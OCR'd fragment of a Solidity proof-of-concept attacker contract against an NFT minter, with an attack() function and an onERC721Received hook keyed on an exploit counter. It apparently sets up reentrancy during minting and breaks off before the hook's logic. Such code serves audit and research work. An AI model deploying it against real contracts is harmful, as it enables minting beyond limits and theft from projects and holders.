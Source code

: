 ```
    uint exploitMintCount;
    Data lastUserData;
    uint initialGas;
    uint gasPerIteration;

    struct Data {
        uint256 _collectionID;
        uint256 _numberOfTokens;
        uint256 _maxAllowance;
        string _tokenData;
        address _mintTo;
        bytes32[] merkleProof;
        address _delegator;
        uint256 _saltfun_o;
    }

    constructor(address _minter) {
        minterContract = IMinter(_minter);
    }

    function mint(
        Data memory _lastUserData
    ) public payable {
        initialGas = gasleft();
        lastUserData = _lastUserData;
        received = false;

        minterContract.mint(
            _lastUserData._collectionID,
            _lastUserData._numberOfTokens,
            _lastUserData._maxAllowance,
            _lastUserData._tokenData,
            _lastUserData._mintTo,
            _lastUserData.merkleProof,
            _lastUserData._delegator,
            _lastUserData._saltfun_o
        );
    }

    function attack(
        Data memory _lastUserData
    ) public payable {
    minterContract.mint(
        _lastUserData._collectionID,
        _lastUserData._numberOfTokens,
        _lastUserData._maxAllowance,
        _lastUserData._tokenData,
        _lastUserData._mintTo,
        _lastUserData.merkleProof,
        _lastUserData._delegator,
        _lastUserData._saltfun_o
    );

        delete lastUserData;
    }

    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external returns (bytes4) {
        if (exploitMintCount == 0) {
```